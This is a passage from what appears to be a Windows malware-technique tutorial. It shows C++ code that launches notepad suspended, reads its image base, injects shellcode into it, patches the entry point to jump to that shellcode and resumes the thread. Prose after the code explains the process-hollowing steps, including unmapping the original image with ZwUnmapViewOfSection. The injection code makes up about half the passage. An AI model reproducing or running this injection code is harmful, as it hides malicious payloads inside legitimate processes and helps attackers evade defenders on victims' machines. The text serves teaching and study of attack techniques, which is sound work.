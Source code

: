 ```cpp 

    SIZE_T bytesRead = 0;
    if (!ReadProcessMemory(
        hostProcess->processHandle, 
        (LPCVOID)pebImageBaseOffset, 
        &hostProcess->imageBaseAddress,
        4, &bytesRead) && bytesRead != 4)
    {
        std::cout << "failed to read image base address" << std::endl;
        return -1;
    }

    PVOID remoteShellcodeAddress = InjectShellcode(hostProcess, s);
    if (remoteShellcodeAddress == NULL)
    {
        std::cout << "shellcode injection failed\n"; 
        return -1;
    }
   
    PVOID addr = NULL;
    if ((addr = PatchHostProcess(hostProcess, remoteShellcodeAddress)) == NULL)
    {
        std::cout << "failed tp patch host\n";
        return -1;
    } 

    fNtSetContextThread(pi->hThread, &ctx);

    std::cout << "[!] Resumed thread\n";
    ResumeThread(pi->hThread);
}
```
Above code does exactly what is listed above. First, it starts a notepad 
process suspend it's exution. then it retrieves **thread context** from theprocess. Thread context is important because, without setting context back 
to what it was before suspending will cause a program crash.

Then it proceed to retrieve **ImageBaseAddress** of the process using 
`NtQueryInformationProcess` and `ReadProcessMemory`. 

Then the shellcode is injected into the target process by the function
**InjectShellcode**. This function uses the same technique discussed 
arlier. 

The main function then calls **PatchHostProcess**. This function reads the 
host process's image into the memory and parses the entry point. Then in 
the local copy, it creates a hook that jumps into the shellcode that 
**InjectShellcode** injected. Then it uses the above code injection method 
and creates a section in the local process, however, before creating a 
section in the remote process, it unmaps the process image using a call to 
`ZwUnmapViewOfSection`. it then creates the section at the same address 
that the original image was mapped.
